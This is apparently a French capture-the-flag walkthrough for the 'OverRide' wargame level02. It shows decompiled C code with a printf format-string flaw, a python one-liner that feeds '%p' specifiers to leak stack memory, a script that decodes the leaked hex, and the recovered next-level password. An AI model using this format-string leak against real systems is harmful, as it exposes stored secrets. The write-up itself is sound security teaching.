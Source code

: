 # **Level 02**

Code decompiler:

```
undefined8 main(void)

{
  int iVar1;
  size_t sVar2;
  long lVar3;
  undefined8 *puVar4;
  undefined8 local_118 [14];
  undefined8 local_a8 [6];
  undefined8 local_78 [12];
  int local_14;
  FILE *local_10;
  
  puVar4 = local_78;
  for (lVar3 = 0xc; lVar3 != 0; lVar3 = lVar3 + -1) {
    *puVar4 = 0;
    puVar4 = puVar4 + 1;
  }
  *(undefined4 *)puVar4 = 0;
  puVar4 = local_a8;
  for (lVar3 = 5; lVar3 != 0; lVar3 = lVar3 + -1) {
    *puVar4 = 0;
    puVar4 = puVar4 + 1;
  }
  *(undefined *)puVar4 = 0;
  puVar4 = local_118;
  for (lVar3 = 0xc; lVar3 != 0; lVar3 = lVar3 + -1) {
    *puVar4 = 0;
    puVar4 = puVar4 + 1;
  }
  *(undefined4 *)puVar4 = 0;
  local_10 = (FILE *)0x0;
  local_14 = 0;
  local_10 = fopen("/home/users/level03/.pass","r");
  if (local_10 == (FILE *)0x0) {
    fwrite("ERROR: failed to open password file\n",1,0x24,stderr);
                    // WARNING: Subroutine does not return
    exit(1);
  }
  sVar2 = fread(local_a8,1,0x29,local_10);
  local_14 = (int)sVar2;
  sVar2 = strcspn((char *)local_a8,"\n");
  *(undefined *)((long)local_a8 + sVar2) = 0;
  if (local_14 != 0x29) {
    fwrite("ERROR: failed to read password file\n",1,0x24,stderr);
    fwrite("ERROR: failed to read password file\n",1,0x24,stderr);
                    // WARNING: Subroutine does not return
    exit(1);
  }
  fclose(local_10);
  puts("===== [ Secure Access System v1.0 ] =====");
  puts("/***************************************\\");
  puts("| You must login to access this system. |");
  puts("\\**************************************/");
  printf("--[ Username: ");
  fgets((char *)local_78,100,stdin);
  sVar2 = strcspn((char *)local_78,"\n");
  *(undefined *)((long)local_78 + sVar2) = 0;
  printf("--[ Password: ");
  fgets((char *)local_118,100,stdin);
  sVar2 = strcspn((char *)local_118,"\n");
  *(undefined *)((long)local_118 + sVar2) = 0;
  puts("*****************************************");
  iVar1 = strncmp((char *)local_a8,(char *)local_118,0x29);
  if (iVar1 == 0) {
    printf("Greetings, %s!\n",local_78);
    system("/bin/sh");
    return 0;
  }
  printf((char *)local_78);
  puts(" does not have access!");
                    // WARNING: Subroutine does not return
  exit(1);
}
```
On remarque tres vite un `printf` qui n'est pas au bon `format` a la ligne 75 `printf((char *)local_78);`
Nous serons donc probablement sur un exploit `Format string attack`
Testons un peu le programme,
```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: test
--[ Password: test
*****************************************
test does not have access!
```
Maintenant avec du format pris en charge par printf, sachat que le printf mal former affiche l'username,
```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %p
--[ Password: test
*****************************************
0x7fffffffe4f0 does not have access!
```
De plus, on peut voir dans le code que le `.pass` du `user suivant` est `stocker` dans la `stack` apres un open puis un read.
Donc si l'on affiche des %p avec notre printf, nous devrions voir notre .pass apparaitre
```
level02@OverRide:~$ (python -c "print '%p '*200"; python -c "print 'test'") > /var/crash/file
level02@OverRide:~$ cat /var/crash/file - | ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe4f0 (nil) 0x25 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6e8
0x1f7ff9a08 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025
0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520
0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070
0x100207025 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758
0x354a35686e475873 0x48336750664b394d (nil) 0x7025207025207025 0x2520702520702520
0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```
On voit donc en sortie, notre enchainement de `702520` qui correspond a `'%p '` une suite de characteres pui de nouveau notre enchainement,
Penchons nous sur ces characteres:
`0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d`
Si on decode de l'hexa vers l'ascii la premiere suite (en enlevant le 0x au prealable), on obtient `unPR47hH`,
Or on sait que les adresses sont notees en little endian, donc il faut reverse le resultat, ce qui donne `Hh74RPnu`.
Faisons sur le tout,
```
decrypt.py

l = "756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d"
l = l.split()
for s in l:
	print(bytearray.fromhex(s).decode()[::-1], end="")
print("")

```
```
python decrypt.py 
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
testons ce password pour level03,
```
level02@OverRide:~$ su level03
Password: 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   /home/users/level03/level03
```
> ### NEXT : [Level 03](/level03/walkthrough.md)
